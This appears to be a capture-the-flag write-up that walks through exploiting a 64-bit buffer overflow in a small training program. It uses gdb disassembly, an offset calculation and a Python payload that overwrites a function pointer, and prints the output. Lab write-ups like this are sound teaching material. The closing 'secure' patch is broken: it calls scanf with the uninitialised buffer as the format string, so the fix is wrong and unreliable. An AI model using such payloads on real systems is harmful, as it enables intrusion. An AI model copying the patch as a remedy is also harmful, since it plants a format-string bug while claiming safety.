 This is essentially the b2 problem, however it is 64 bit. This does change some things.

Let's take a look at the source code...
```
#include <stdio.h>
#include <stdlib.h>

int nothing_interesting()
{

	printf("Level Cleared\n");
}

int main()
{
	char buf1[55];
	char buf0[300];
	volatile int (*var1)();
	var1 = 0;

	gets(buf0);

	if (var1)
	{
		printf("Wait, you aren't supposed to be here\n");
		var1();
	}

	else
	{
		printf("O look you didn't solve this. How very predictable\n");
	}
}
```

So we can see that our objective lies in the nothing_interesting() function. However it doesn't call it anywhere in the main function. However it does call a function, which was declared as a volatile int. In addition to that it has a buffer overflow vulnerabillity where it uses gets() to read into buf0. So we should be able to exploit this program by overflowing buf0 to rewrite var1 with the address of the nothing_interesting() function. This way, the if then statement will evaluate as true and when the var1() call runs, it will run the nothing_interesting() function. Also buf1 doesn't serve any purpose as far as I can tell. It's just there to troll with you. So let's solve this with gdb.

First fire up gdb

```
guyinatuxedo@tux:/Hackery/cr@ck_th3_c0de/buf_ovf/b2_64$ gdb ./b2_64
```

One wall of text later...
```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0000000000400577 <+0>:	push   rbp
   0x0000000000400578 <+1>:	mov    rbp,rsp
   0x000000000040057b <+4>:	sub    rsp,0x170
   0x0000000000400582 <+11>:	mov    QWORD PTR [rbp-0x8],0x0
   0x000000000040058a <+19>:	lea    rax,[rbp-0x170]
   0x0000000000400591 <+26>:	mov    rdi,rax
   0x0000000000400594 <+29>:	mov    eax,0x0
   0x0000000000400599 <+34>:	call   0x400450 <gets@plt>
   0x000000000040059e <+39>:	cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004005a3 <+44>:	je     0x4005bc <main+69>
   0x00000000004005a5 <+46>:	mov    edi,0x400668
   0x00000000004005aa <+51>:	call   0x400430 <puts@plt>
   0x00000000004005af <+56>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004005b3 <+60>:	mov    eax,0x0
   0x00000000004005b8 <+65>:	call   rdx
   0x00000000004005ba <+67>:	jmp    0x4005c6 <main+79>
   0x00000000004005bc <+69>:	mov    edi,0x400690
   0x00000000004005c1 <+74>:	call   0x400430 <puts@plt>
   0x00000000004005c6 <+79>:	mov    eax,0x0
   0x00000000004005cb <+84>:	leave  
   0x00000000004005cc <+85>:	ret    
End of assembler dump.
```

So right now, we are looking at the assembly code. First thing we should figure out is how much data we will need to input in order to overflow the buffer and write over the var1 volatile int. Let's see if we can find out where in memeory the buffer starts.

```
   0x000000000040058a <+19>:	lea    rax,[rbp-0x170]
   0x0000000000400591 <+26>:	mov    rdi,rax
   0x0000000000400594 <+29>:	mov    eax,0x0
   0x0000000000400599 <+34>:	call   0x400450 <gets@plt>
```

Looking here we can see the assembly call for the gets() function. We know that the gets() function uses buf0 (the buffer we are after) as it's argument. Thing is we see the lea instruction with a stack position. The lea address prepares an area of memory (like a buffer) to be pushed onto the stack and used by a function. Since function paramters are pushed onto the stack right before the function is called, it is probably the buffer we are after which is stored at rbp-0x170.

Next we need to see where the int is stored. We know that it is used in an if then statement, which assembly does that through the use of a cmp function (cmp function just compares two things by subtracting one from another).

```
   0x000000000040059e <+39>:	cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004005a3 <+44>:	je     0x4005bc <main+69>
```

So we can see that a value on the stack is being compared to 0 (which is what ints are compared to in an if then statment like the one were dealing with). So we can be pretty sure that the stack location is rbp-0x8.

So we know the two stack loactions. let's caluclate the differece using python.

```
guyinatuxedo@tux:~$ python
Python 2.7.12 (default, Nov 19 2016, 06:48:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x170 - 0x8
360
>>> exit()
```

So as you can see, the difference is 360 bytes. So we should be able to write 361 characters and overflow the variable. Let's try it.

```
guyinatuxedo@tux:/Hackery/cr@ck_th3_c0de/buf_ovf/b2_64$ python -c 'print "1"*361' | ./b2_64
Wait, you aren't supposed to be here
Segmentation fault (core dumped)
```

So we have determined the buffer. Next thing is we need the address of the nothing_interesting() function. We can get it using objdump.

```
guyinatuxedo@tux:/Hackery/cr@ck_th3_c0de/buf_ovf/b2_64$ objdump -D b2_64 | grep nothing_interesting
0000000000400566 <nothing_interesting>:
```

So we have the address of the nothing_interesting() function which is 0000000000400566. So let's consrtuct the payload. Our payload will consist of two entities.

Filler = 360 characters

Address = 0x0000000000400566 (in little endian)

So let's try our exploit...

```
guyinatuxedo@tux:/Hackery/cr@ck_th3_c0de/buf_ovf/b2_64$ python -c 'print "1"*360 + "\x66\x05\x40\x00\x00\x00\x00\x00"' | ./b2_64
Wait, you aren't supposed to be here
Level Cleared
```

And just like that, we pwned the binary.

Now let's patch the program.

```
#include <stdio.h>
#include <stdlib.h>

int nothing_interesting()
{

    printf("Level Cleared\n");
}

int main()
{
//  char buf1[55];
    char buf0[300];
    volatile int (*var1)();
    var1 = 0;

    scanf(buf0, sizeof(buf0), stdin);

    if (var1)
    {
        printf("Wait, you aren't supposed to be here\n");
        var1();
    }

    else
    {
        printf("O look you didn't solve this. How very predictable\n");
    }
}
```

So as you can see we replaced the gets() function with a secure implementation of the scanf() function. In addition to that we commented out the unused buf1 buffer. Now let's see if we actually patched it.

```
guyinatuxedo@tux:/Hackery/cr@ck_th3_c0de/buf_ovf/b2_64$ python -c 'print "1"*360 + "\x66\x05\x40\x00\x00\x00\x00\x00"' | ./b2_64_secure
O look you didn't solve this. How very predictable
```

And just like that, we patched the binary
